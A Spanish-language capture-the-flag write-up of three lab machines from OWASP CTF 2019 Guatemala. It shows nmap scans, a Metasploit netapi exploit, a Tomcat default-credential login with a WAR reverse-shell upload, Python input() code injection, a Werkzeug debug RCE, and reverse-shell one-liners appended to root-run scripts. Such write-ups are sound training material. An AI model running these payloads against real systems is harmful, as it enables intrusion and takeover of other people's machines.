OWASP CTF 2019 Guatemala - Infraestructura

Contenido
INFRAESTRUCTURA 1
NMAP
Escaneo de puertos/version/sistema operativo con nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-16 02:46 CDT
Nmap scan report for 192.168.1.15
Host is up (0.00094s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds Microsoft Windows XP microsoft-ds
MAC Address: 00:0C:29:87:DA:AB (VMware)
Device type: general purpose
Running: Microsoft Windows XP
OS CPE: cpe:/o:microsoft:windows_xp::sp2 cpe:/o:microsoft:windows_xp::sp3
OS details: Microsoft Windows XP SP2 or SP3
Network Distance: 1 hop
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.89 seconds
METASPLOIT
Utilizamos el exploit netapi para windows xp contra el sistema operativo.

SHELL

Obtenemos permisos de administrador y nuestra flag en el Escritorio.
flag.txt: flag{w1nd0ws_n3tap1_3xplo1t}
INFRAESTRUCTURA 2
NMAP
Escaneo de puertos tcp/version/sistema con nmap.
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-16 03:54 CDT
Nmap scan report for 192.168.1.14
Host is up (0.00088s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
| ajp-methods:
|_ Supported methods: GET HEAD POST OPTIONS
8080/tcp open http Apache Tomcat 9.0.10
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.10
MAC Address: 00:0C:29:AB:85:8F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
TRACEROUTE
HOP RTT ADDRESS
1 0.88 ms 192.168.1.14
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.26 seconds.
Puerto 8009
Nos muestra un error de conexion. 
HTTP
En el puerto 8080 nos muestra una pagina corriendo en tomcat. 
Utilizamos el panel de control para obtener acceso. Siempre probamos las contraseñas comunes o por default de alguna plataforma para ver si logramos obtener accesso, este es el caso de esta maquina.
user: tomcat
pass: s3cret
Ahora tenemos acceso al panel de control de tomcat, podemos subir una shell/payload con extension war.

Creamos nuestra reverse shell o payload con msfvenom y configuramos metasploit para poder obtener una sesion o shell por medio del payload.

Subimos nuestro archivo en el panel de control en a parte de ‘WAR file to deploy’. 
Para ejecutar nuestra shell solo buscamos en la lista que nos aparece por encima y basta con darle click para que se habra una sesion en metasploit.

Metasploit

Actualizamos nuestra shell con python3.

Estando dentro obtenemos nuestra bandera en la carpeta principal del usuario retoinfra1.

user.txt:flag{t0mcat_fa1_cr3dent1als}
PRIVILEGE ESCALATION
Utilizndo pspy encontramos un cronjob que se ejecuta cada minuto y ejecuta un archivo sh en /home/retoinfra1/script.sh.

Ya que podemos editar el archivo y se ejecuta cada minuto vamos a modificar el script.sh para obtener una shell inversa, agregamos una linea de comando que nos permite obtener una shell inversa.
echo "bash -i >& /dev/tcp/192.168.1.10/7878 0>&1" >> script.sh
Ponemos a la escucha nuestro puerto en netcat, esperamos y obtenemos nuestra shell inversa como usuario root.

root.txt:flag{cr0n_fa1l_bash_scr1pt}
INFRAESTRUCTURA 3
NMAP
Escaneo de puertos tcp con nmap.
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-16 03:17 CDT
Nmap scan report for 192.168.1.21
Host is up (0.000077s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.5p1 Ubuntu 10ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5355/tcp open llmnr?
10000/tcp open tcpwrapped
MAC Address: 00:0C:29:85:13:94 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 142.49 seconds
PUERTO 10000

NETCAT - PUERTO 10000

EJECUTANDO comandos - NETCAT 10000
http://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
Al pasarle una cadena de texto al ‘input’ este lo evalua, si le pasamos la siguiente linea de codigo "__import__('os').system('id')" lo va ejecutar.

Encontramos unas credenciales, para poder verlas utilizamos "__import__('os').system('cat credentials.txt')"
credentials.txt
user: retoinfra2
password: 1337hackme!
Nos logeamos por medio de SSH con las credenciales que encontramos.
Encontramos el archivo ping que nos mostraba en el navegador:
#!/usr/bin/python
import time, random
num_packets = int(input(' Please enther number of packets: '))
print ''
print 'PING localhost (127.0.0.1) 56(84) bytes of data'
for i in range(num_packets):
time.sleep(1)
print '64 bytes from localhost (127.0.0.1): icmp_seq={} ttl=64 time=0.0{} ms'.format(i+1, int(random.random() * 100))
Tambien con nuestro archivo flag user y un hint:
user.txt: flag{598852e2cd167e254ce4c5e95393c372}
cat hint.txt
Si estas leyendo esto felicidades, vas muy bien...
Para la elevacion de privilegios en esta maquina tiene que realizar port forwarding...
debug to rce werkzeug ....
Revisamos los puertos con netstat -ntpl
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:5000 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:5355 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:10000 0.0.0.0:* LISTEN 3740/socat
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp6 0 0 :::5355 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
Como lo dice el hint vamos a hacer port fordwarding del puerto 5000, lo vamos a traer a nuestra maquina local por medio de SSH.
ssh -L 5656:127.0.0.1:5000 retoinfra2@192.168.1.21
Revisamos localmente con netstat -tnpl y tenemos localmente el puerto 5000 en el puerto 5656 :).
root@sckull:~/owasp/infra# netstat -ntpl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/init
tcp 0 0 127.0.0.1:5656 0.0.0.0:* LISTEN 4456/ssh
tcp6 0 0 :::111 :::* LISTEN 1/init
tcp6 0 0 ::1:5656 :::* LISTEN 4456/ssh
Como lo decia el hint, debug to rce werkzeug, encontramos un script que nos ayuda a ejecutar comandos en la maquina cuando esta activado “debug=True”.
https://github.com/its-arun/Werkzeug-Debug-RCE Ejecutamos el script y le pasamos la ip local con el puerto que trajimos con SSH tambien le pasamos un comando y eventualmente obtenemos la bandera root.txt intra2_root.png
root.txt: flag{8eab1e913f4a669eddbbd45c1484925a}
SHELL ROOT
Agregamos una shell inversa a un archivo sh en la carpeta del usuario que tenemos con bajos privilegios, para ejecutarlo como usuario root.
retoinfra2@ubuntu:~$ echo "bash -i >& /dev/tcp/192.168.1.10/7878 0>&1" > shell.sh
retoinfra2@ubuntu:~$ pwd
/home/retoinfra2
Y por medio del script ejecutamos el archivo que contiene nuestra shell inversa y obtenemos una shell como root.

root.txt: flag{8eab1e913f4a669eddbbd45c1484925a}
user.txt: flag{598852e2cd167e254ce4c5e95393c372}